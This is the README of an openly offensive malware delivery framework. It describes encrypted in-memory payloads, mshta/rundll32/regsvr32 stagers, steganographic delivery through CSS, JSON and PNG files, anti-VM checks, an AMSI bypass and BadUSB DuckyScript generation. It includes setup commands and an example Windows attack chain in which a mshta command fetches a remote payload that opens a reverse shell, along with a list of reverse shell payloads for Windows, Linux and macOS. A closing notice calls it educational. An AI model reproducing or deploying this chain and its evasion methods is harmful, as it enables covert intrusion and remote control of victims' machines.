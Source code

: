 # 🕵️‍♂️ Stealth Dropper (2025 Edition)

**A multi-stage, multi-OS, in-memory malware delivery framework**

---

## ✅ Features

- **AES-256 encrypted payload delivery**
- **Full in-memory execution** (no file drops)
- **Multi-OS support:** Windows / Linux / macOS
- **Web-based stagers:** mshta / rundll32 / regsvr32
- **Payload delivery via:** CSS, JSON, PNG (LSB steganography)
- **Anti-VM / sandbox detection module**
- **DuckyScript generation** for WiFi BadUSB

---

## 📁 Project Structure

```text
stealth-dropper/
├── run.sh                  # Main automation script
├── config/                 # Config/settings.json
├── core/                   # Anti-VM scripts (e.g., anti_vm.ps1)
├── output/                 # Generated stagers & logs
├── payloads/               # Raw stage 2 payloads by OS
├── stagers/                # Template stage 1 payloads for delivery
├── tools/                  # Encryption & embedding tools
└── web/                    # Hosted delivery files
```

---

## 🚀 Getting Started

### 1. Clone & Set Up Virtual Environment

```bash
# Clone the repository
git clone https://github.com/trxtr337/stealth-dropper-EXTENDED.git
cd stealth-dropper-EXTENDED

# Create a virtual environment
python3 -m venv venv

# Activate the environment
# Linux/macOS:
source venv/bin/activate
# Windows:
venv\Scripts\activate

# Install dependencies
pip install -r requirements.txt
```

### 2. Configure Encryption Key

Create a `.env` file and set your encryption key:

```env
ENCRYPTION_KEY=Zxcvbnm1234567890Zxcvbnm12345678
```

### 3. Build & Run

```bash
chmod +x run.sh
./run.sh
```

**You will be prompted to select:**
- IP and PORTS
- Target OS
- Payload type (e.g., shell_reverse)
- Delivery method (css / manifest / png)

**Result:**
- Stage 2 is AES-encrypted
- Stage 1 (PowerShell / HTA / SCT) is generated
- Payload is embedded in CSS/JSON/PNG
- Server starts at `http://<your-ip>:<port>`
- DuckyScript saved in `output/ducky_payload.txt`

---

## 🧪 Example Attack Chain (Windows)

```text
1. Deliver WiFi Ducky:
   > GUI r
   > mshta http://<your-ip>:8000/decrypt.html

2. HTML decrypts AES payload from CSS/JSON/PNG
3. Executes PowerShell stage 2 in memory
4. Reverse shell connects back to you
```

---

## 📦 Supported Payloads

- `windows/shell_reverse` → PowerShell TCP shell
- `windows/lolbins/js_payload.html` → mshta/jscript shell
- `linux/bash_reverse` → Bash reverse TCP shell
- `mac/osascript` → AppleScript reverse shell

---

## 🔐 Stealth Considerations

- No `IEX` / no `downloadstring` / no `Invoke-Obfuscation`
- AMSI bypass injected in stage 1
- Built-in anti-VM checks (RAM, hostname, vendor)
- No file drops unless explicitly instructed

---

## 🛠 Requirements

- Python **3.8+**
- `pip install -r requirements.txt`
- Dependencies: `python-dotenv`, `pycryptodome`, `Pillow`

---

## ⚠️ Legal Notice

> **This project is for educational and authorized testing use only.**  
> You are responsible for your actions. Do not deploy without explicit permission.

